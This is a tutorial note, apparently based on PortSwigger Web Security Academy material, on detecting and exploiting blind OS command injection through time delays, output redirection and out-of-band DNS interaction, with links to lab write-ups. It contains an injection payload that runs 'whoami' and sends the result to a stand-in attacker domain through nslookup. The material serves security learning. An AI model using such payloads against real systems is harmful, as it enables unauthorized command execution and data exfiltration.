 Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example:

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the `mail` command (if any) is not returned in the application's responses, and so using the `echo` payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

## Detecting blind OS command injection using time delays

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond.
ExLab: [2\. lab-blind-time-delays](../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/2.%20lab-blind-time-delays.md)

## Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser.
ExLab: [3\. lab-blind-output-redirection](../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/3.%20lab-blind-output-redirection.md)

## Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
ExLab: [4\. lab-blind-out-of-band](../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/4.%20lab-blind-out-of-band.md)

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

ExLab: [5\. lab-blind-out-of-band-data-exfiltration](../../../../learn/portswigger/Web%20Security%20Academy/OS%20command%20injection/lab/practitioner/5.%20lab-blind-out-of-band-data-exfiltration.md)